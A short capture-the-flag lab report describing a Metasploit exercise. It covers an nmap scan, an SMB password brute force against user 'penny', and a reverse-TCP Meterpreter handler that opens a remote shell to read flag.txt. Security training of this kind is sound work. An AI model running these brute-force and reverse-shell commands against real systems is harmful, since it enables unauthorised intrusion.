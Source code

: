 # CTF Mini-Lab Report

## 🎯 Objective
Perform a vulnerability scan and exploit a target to gain shell access using Metasploit Framework.

## 🛠️ Tools Used
- `nmap` for port scanning and service detection
- `msfconsole` for exploit and payload management
- `auxiliary/scanner/smb/smb_login` for SMB brute force
- `searchsploit` for checking public exploits

## 🔍 Methodology

### 1. Start Metasploit
```bash
msfconsole
```

### 2. Run Nmap
```bash
nmap -sV -p 8000 <target_ip>
```

### 3. SMB Brute Force Attack
```bash
search auxiliary/scanner/smb/smb_login
use <module_number>
set RHOSTS <target_ip>
set SMBUSER penny
set PASS_FILE /path/to/passwords.txt
run
```

### 4. Gain Shell via Exploit (if found)
```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT 4444
run
```

### 5. Meterpreter Shell Commands
```bash
pwd        # show working directory
ls         # list files
cat flag.txt
```

## ✅ Findings
- Open SMB port allowed weak password authentication for user `penny`
- Exploit allowed remote code execution and retrieval of `flag.txt`

## 📘 Lessons Learned
- How to enumerate SMB shares and perform brute-force
- How to choose appropriate payloads and interact with meterpreter sessions